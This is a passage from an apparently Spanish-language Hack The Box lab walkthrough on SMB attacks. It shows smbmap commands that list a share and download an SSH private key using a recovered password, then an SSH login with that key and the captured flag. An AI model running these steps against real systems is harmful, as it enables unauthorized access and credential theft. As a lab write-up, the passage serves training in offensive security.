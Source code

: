 Siendo la respuesta: "34c8zuNBo91!@28Bszh"

**3. Login as the user "jason" via SSH and find the flag.txt file. Submit the contents as your answer.**

Veo que en el recurso "GGJ" hay una clave privada:
```
smbmap -H 10.129.187.155 -r "GGJ"
```

```
fr--r--r--             3381 Tue Apr 19 16:33:03 2022	id_rsa
```

Me la descargo con las credenciales obtenidas anteriormente:
```
smbmap -H 10.129.187.155 --download "GGJ\id_rsa" -u jason -p '34c8zuNBo91!@28Bszh'
```
Doy permisos de ejecución:
```
10.129.187.155-GGJ_id_rsa
```
Y entro por SSH a dicho servidor:

```
ssh jason@10.129.187.155 -i 10.129.187.155-GGJ_id_rsa 
```

Y capturo el flag.txt:
HTB{SMB_4TT4CKS_2349872359}


